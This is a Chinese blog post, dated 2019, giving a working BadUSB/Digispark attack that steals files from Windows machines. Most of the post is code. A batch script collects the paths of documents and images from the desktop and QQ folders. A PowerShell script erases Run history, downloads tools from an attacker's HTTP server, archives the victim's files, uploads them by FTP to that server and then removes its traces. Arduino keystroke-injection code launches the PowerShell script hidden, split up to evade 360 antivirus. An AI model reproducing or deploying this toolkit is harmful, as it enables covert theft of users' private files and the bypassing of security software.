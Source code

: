 ```yaml
---
title: "【HID攻击】360免杀方法-digispark利用PowerShell脚本进行文件窃取"
date: '2019-04-06T20:20:05Z'
tags:
  - 旧博客内容
  - 技术向
updatedOn: '2019-04-06T20:20:05Z'
raw_comment_count: '0'
image: https://oss.192168123.xyz/image/old-fxblog-img/cover/fa92823efb8732e9b61a8ba6d063ad12.jpg
---
```


:::tip
本文迁移自老博客，原始链接为 [https://blog.fxit.top/?p=1011](https://blog.fxit.top/?p=1011)
:::

:::warning
注意，本文章所包含的资源分享已迁移至 [https://233456.xyz/s/wRSz](https://233456.xyz/s/wRSz)
:::

前言

本文是在m大的[https://www.freebuf.com/articles/100026.html](https://www.freebuf.com/articles/100026.html)基础上 进行 digispark代码的适配 以及 360的免杀处理，以弥补原教程的缺失，再次感谢m大提供的思路。

本文对360免杀处理 以及 digispark的代码转换 为博主原创。

本文对m大的文章进行整合修改，并加入digispark的适配以及360免杀的处理部分，以及提供文章提到的相关文件下载。

<hr />

## 准备工具
一台外网主机(直接电脑接网线宽带拨号也可以)

一个HID攻击工具(烧鹅或者Badusb)

FTPserver(搭建一个FTP服务器用来接收窃取到的文件)

PHPstudy(搭建http服务器用来存放ps脚本等)

7z.exe / 7z.dll(存放到http服务器下,之后会利用它来进行压缩后在上传，尽量减小上传速度)

PS：7z.exe以及7z.dll在文末下载。

<hr />

### 代码部分(以下代码可能具有攻击性,请勿用于非法用途)
1.\[get.bat\](获取需要的文件存放位置，并保存到c:\temp.bat)[该代码存放于服务器http根目录下]

<strong>博主PS：此处是寻找对应文件夹里面*.txt等文件类型后缀的文件，保存到c盘根目录的temp.bat。</strong>
```
dir /s /a /b "%userprofile%\desktop\*.txt"&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.doc"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.docx"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.xls"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.xlsx"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.ppt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.xls"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.eet"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.et"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.xlt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.pdf"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.jpg"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.jpeg"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.png"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.bmp"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.gif"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.rtf"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\desktop\*.htl"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.txt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.doc"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.docx"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.xls"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.xlsx"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.ppt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.xls"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.eet"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.et"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.xlt"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.pdf"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.jpg"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.jpeg"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.png"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.bmp"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.gif"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.rtf"&gt;&gt;c:\temp.bat
dir /s /a /b "%userprofile%\Documents\Tencent Files\*.htl"&gt;&gt;c:\temp.bat
```

2.\[get.ps1\](清除运行记录，下载服务器中的7z.dll / 7z.exe / get.bat到c盘到相应位置,处理c:\temp.bat为7z压缩为c:\Ram.7z,上传c:\Ram.7z到FTP服务器根目录下,删除所有下载的文件!!!一共需要改4处IP地址!!!)[该代码存放于服务器http根目录下记得设置FTP服务器密码为admin admin]

<strong>博主PS：此处是对刚刚寻找到的文件进行压缩并上传到你自己的服务器。</strong>
```
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f;

(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/7z.dll','c:\7z.dll');

(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/7z.exe','c:\7z.exe');

(New-Object System.Net.WebClient).DownloadFile('http://192.168.1.1/get.bat','c:\Users\Public\get.bat');

C:\Users\Public\get.bat;$array="";foreach($u in(get-content c:\temp.bat)){[array]$array +='c:\7z a -t7z c:\Ram.7z "'+$u+'"'};$array | Out-File -Encoding default c:\temp.bat;c:\temp.bat;

$fileinf=New-Object System.Io.FileInfo("C:\Ram.7z");

$ftp = [System.Net.FtpWebRequest] [System.Net.FtpWebRequest]::Create("ftp://192.168.1.1/"+$fileinf.name)

$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile

$ftp.Credentials = new-object System.Net.NetworkCredential("admin","admin")

$ftp.UseBinary = $true

$ftp.UsePassive = $true

$content = [System.IO.File]::ReadAllBytes($fileInf.fullname)

$ftp.ContentLength = $content.Length

$rs = $ftp.GetRequestStream()

$rs.Write($content, 0, $content.Length)

$rs.Close()

$rs.Dispose()

Remove-Item c:\temp.bat

Remove-Item c:\Ram.*

Remove-Item c:\7z.*

Remove-Item c:\Users\Public\get.*
```
### （下条为博主修改过的原创内容！）
3.\[get.ino\](以管理员权限下载get.ps1到本地c:\users\public目录!!!需要改1处IP地址!!!UAC闪过之后要记得拔出)[修改IP后直接刷入]
```
#include "DigiKeyboard.h"
#define KEY_LEFT_SHIFT 0xE1
#define KEY_LEFT_ALT 0xE1
void setup() {
DigiKeyboard.sendKeyStroke(0);
DigiKeyboard.delay(5000);
DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
DigiKeyboard.delay(100);
DigiKeyboard.sendKeyPress(KEY_LEFT_SHIFT);//按住左SHIFT，绕过输入法
DigiKeyboard.println("POWERSHELL -NOP");
DigiKeyboard.sendKeyPress(0);//松开
DigiKeyboard.sendKeyStroke(KEY_ENTER);//按回车
DigiKeyboard.delay(2000);
DigiKeyboard.println("$clnt=new-object System.Net.WebClient;");//开始分part执行实现360免杀
DigiKeyboard.println("$url='http://你上传的服务器域名/GET.ps1\';");
DigiKeyboard.println("$file='C:\\USERS\\PUBLIC\\GET.PS1';");
DigiKeyboard.println("$clnt.DownloadFile($url,$file);");
DigiKeyboard.println("START-PROCESS POWERSHELL.exe \"C:\\USERS\\PUBLIC\\GET.PS1\" -WindowStyle Hidden");
DigiKeyboard.println("exit");
}

void loop() {
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.print("y");
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
  DigiKeyboard.sendKeyPress(KEY_LEFT_ALT);
}
```
上面通过分part执行，以跳过360的弹窗提示。

<hr />

以上。

相关文件下载链接在文末。
